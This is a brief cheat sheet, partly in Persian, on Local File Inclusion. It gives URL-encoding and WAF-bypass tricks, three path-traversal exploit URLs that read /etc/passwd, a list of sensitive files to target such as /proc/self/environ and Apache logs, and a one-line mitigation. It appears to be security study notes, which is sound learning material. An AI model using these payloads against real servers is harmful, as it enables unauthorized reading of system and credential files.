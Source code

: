 # Local File Inclusion

## Concept
- از این آسیب پذیری  برای خواند فایل های تنظیمات روی hosting machine استفاده می شود
- همچنین فایل های تصادفی مانند /etc/passwd
- همچنین ممکن است منجر به Information Disclosure شود
- در LFI می توانیم فایل اجرا کنیم ولی در Directory Traversal فقط می توانیم فایل های روی سرور را بخوانیم

## Bypass
- Encoding
  - ```.``` => %2e
  - ```/``` => %2f
  - ```../``` => %2e%2e%2f
- WAF Bypass
  - ```../``` => ```..././``` 
  - ```../``` => ```....//``` 

## Exploit
  - ```example1.php?page=intro.php../../../../../etc/passwd```
  - ```example2.php?page=intro../../../../../../../../../../etc/passwd%00``` 
  - ```example2.php?page=intro%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00``` 

## Intersting files
  - ```/proc/self/environ```
  - ```/var/log/auth.log```
  - ```/var/log/apache2/access.log```
  
## Mitigation
  - Use static file inclusion. hard code the fiels that we want to include in the code.
